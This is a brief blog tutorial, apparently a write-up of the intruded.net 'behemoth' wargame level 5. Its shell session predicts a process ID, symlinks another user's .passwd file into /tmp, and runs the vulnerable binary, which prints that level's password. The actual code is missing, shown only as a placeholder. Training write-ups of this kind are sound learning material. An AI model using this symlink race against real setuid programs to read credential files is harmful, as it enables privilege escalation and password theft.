 Title: intruded.net, behemoth: level 5
Date: 2011/10/01 21:24
Author: Ken Ko
Tags: intruded.net, LD_PRELOAD, behemoth
Category: tutorials

Kind of lame, this one. 

I tried to use the LD_PRELOAD method to have a repeatable getpid() call, but it would only appear to work under gdb and ltrace; very strange.

So, let's go with a more brute force approach:

[codebox 1]

Now, to use it:

<code>
level5@behemoth:/tmp$ ./zpid
2327
level5@behemoth:/tmp$ ./zpid
2328
level5@behemoth:/tmp$ ln -s /home/level6/.passwd /tmp/2331
level5@behemoth:/tmp$ /wargame/level5
PID not found!
level5@behemoth:/tmp$ /wargame/level5
Finished sleeping, fgetcing
I47l6DVn
level5@behemoth:/tmp$
</code>

Wasted a lot of time on that LD_PRELOAD. 
Oh well; should really figure out why that didn't work. 
